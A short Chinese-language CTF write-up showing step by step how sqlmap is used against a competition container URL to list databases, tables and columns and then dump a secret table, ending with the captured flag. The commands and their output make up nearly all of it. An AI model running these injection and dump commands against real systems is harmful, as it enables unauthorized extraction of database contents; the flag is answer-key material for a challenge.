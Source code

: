 # SQLMAP简易使用指南

下载好sqlmap,进入有py文件的文件夹,打开文件夹,输入cmd,打开命令行

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -dbs
```

available databases [2]:
[*] book
[*] information_schema

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -D book -tables
```

Database: book
[2 tables]
+--------+
| books  |
| secret |
+--------+

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -D book -T secret --columns
```

+--------+-----------+
| Column | Type      |
+--------+-----------+
| fl4g   | char(255) |
+--------+-----------+

```
python sqlmap.py -u "http://1.container.jingsai.apicon.cn:30956/books/1" -D book -T secret -C fl4g --dump
```

Database: book
Table: secret
[1 entry]
+--------------------------------+
| fl4g                           |
+--------------------------------+
| VIDAR{i^Learned_Sql$Inject1on} |
+--------------------------------+